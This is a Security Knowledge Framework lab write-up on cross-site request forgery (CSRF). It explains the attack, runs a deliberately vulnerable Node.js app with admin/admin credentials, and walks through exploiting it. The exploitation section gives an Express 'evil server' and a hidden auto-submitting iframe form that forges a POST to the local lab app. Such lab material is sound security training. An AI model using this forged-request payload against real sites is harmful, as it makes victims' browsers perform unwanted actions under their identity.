



# KBID 5 - CSRF

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```


Now that the app is running let's go hacking!


## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```


When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.


If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.



Also we can see that the application is not using any form of protection for preventing CSRF because there is no unique token being send in the POST request.

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from. We could achieve this by creating the following express application:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  res.render("evil.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```markup
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://localhost:5000/update' target="csrf-frame" id="csrf-form">
  <input type='hidden' name='color' value='Hackzord!'>
  <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

Save the snippet above to &gt; views/evil.ejs and run the command below to start our evil application.

```text
$ node evil_server.js
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from.



Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.



## Additional sources


